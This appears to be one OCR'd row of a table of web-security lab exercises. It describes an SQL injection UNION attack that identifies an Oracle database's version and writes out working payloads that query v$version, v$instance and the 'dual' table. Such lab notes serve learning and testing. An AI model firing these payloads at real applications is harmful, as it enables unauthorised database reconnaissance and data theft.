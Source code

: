 |31    |SQL injection attack, querying the database type and version on Oracle                                                   |'+UNION+SELECT+BANNER,+NULL+FROM+v$version--'+UNION+SELECT+version,NULL+FROM+v$instance--                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |Using a UNION attack. Each DB type has a different way to call version. In Oracle, every SELECT needs to come FROM a table. The built in table is called ‘dual’. '+UNION+SELECT+NULL,NULL+FROM+dual-- This is the base command to identify two columns in Oracle. '+UNION+SELECT+'abc','def'+FROM+dual--                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |Practitioner, SQLi                          |